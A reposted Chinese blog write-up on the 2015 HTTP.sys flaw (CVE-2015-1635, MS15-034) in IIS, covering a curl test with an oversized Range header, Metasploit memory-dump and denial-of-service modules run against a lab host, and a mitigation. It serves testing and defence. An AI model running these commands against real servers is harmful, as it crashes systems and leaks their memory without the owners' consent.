



# CVE-2015-1635-HTTP.SYS 远程执行代码漏洞（ms15-034） - itcui - 博客园

> 原文：[`www.cnblogs.com/itcui/p/15544659.html`](https://www.cnblogs.com/itcui/p/15544659.html)

1.1.1  漏洞描述

在 2015 年 4 月安全补丁日，微软发布的众多安全更新中，修复了 HTTP.sys 中一处允许远程执行代码漏洞，编号为：CVE-2015-1635（MS15-034 ）。利用 HTTP.sys 的安全漏洞，攻击者只需要发送恶意的 http 请求数据包，就可能远程读取 IIS 服务器的内存数据，或使服务器系统蓝屏崩溃。根据公告显示，该漏洞对服务器系统造成了不小的影响，主要影响了包括 Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2 在内的主流服务器操作系统。

1.1.2  漏洞测试

环境搭建：

服务器器：　win7 或者 Server 2012 r2（192.168.80.130）

（1）使用 curl 工具（需要安装）进行测试，测试命令：

curl http://192.168.80.130 -H "Host: 192.168.80.130" -H "Range: bytes=0-18446744073709551615"

测试结果截图：

 

 若 IIS 服务器返回“Requested Range Not Satisfiable”，则是存在漏洞，否则如果返回”The request has an invalid header name“，则说明漏洞已经修补。

1.1.3  漏洞利用

（1）利用 ms15-034 漏洞读取服务器内存数据

借助 metasploit 平台，截图如下：

use auxiliary/scanner/http/ms15_034_http_sys_memory_dump 

set rhosts 192.168.80.130

run

 

（2）利用 ms15-034 漏洞进行 ddos 攻击

同样借助 metasploit 平台，截图如下：

use auxiliary/dos/http/ms15_034_ulonglongadd 

set rhosts 192.168.80.130

set threads 10

run

 

攻击开始后，win7 瞬间蓝屏然后自动重启，截图如下：

 

1.1.4  漏洞修复 

禁用 IIS 内核缓存（可能降低 IIS 性能）

 

转载：

https://www.cnblogs.com/peterpan0707007/p/8529261.html

Curl

 https://www.ruanyifeng.com/blog/2019/09/curl-reference.html360 安全官网解释：https://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html